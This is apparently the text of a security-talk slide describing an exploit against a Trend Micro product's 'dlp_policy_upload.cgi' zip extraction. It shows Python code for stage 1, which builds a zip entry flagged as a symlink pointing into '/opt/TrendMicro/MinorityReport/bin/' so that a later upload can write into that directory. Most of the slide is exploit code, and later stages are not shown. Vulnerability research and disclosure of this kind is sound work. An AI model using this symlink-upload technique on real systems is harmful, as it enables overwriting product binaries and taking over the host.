

# dlp_policy_upload.cgi zip extraction
Stage 1 – Upload the 1st zip to create the symlink
zi = zipfile.ZipInfo()
zi.filename = u'si'
zi.external_attr |= 0120000 << 16L
zi.compress_type = zipfile.ZIP_STORED
z.writestr(zi, "/opt/TrendMicro/MinorityReport/bin/")

96